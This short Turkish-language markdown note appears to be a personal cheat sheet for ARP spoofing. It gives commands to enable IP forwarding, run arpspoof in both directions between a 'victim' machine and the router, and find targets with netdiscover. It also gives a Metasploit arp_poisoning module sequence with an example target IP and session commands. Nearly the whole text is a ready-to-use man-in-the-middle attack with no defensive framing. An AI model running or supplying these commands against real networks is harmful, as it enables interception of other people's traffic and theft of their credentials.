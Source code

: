 # Arpspoof manual

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Her pc açıldığında bu komutu çalıştır.

```bash
arpspoof -it eth0 -t <kurban-id> <modem-id> 

arpspoof -it eth0 -t <modem-id> <kurban-id> 
```

Bu iki komut aynı anda çalıştırılmalı

idleri netdiscover ile al.

# Arpspoof w/ bettercap

# Arpspoof w/ msfconsole
```bash
msfconsole
msfconsole > use auxiliary/spoof/arp/arp_poisoning
search
show targets
show options
set rhosts 192.168.3.102 <target-ip>
exploit -j -z
sessions -l
sessions 1
exit
```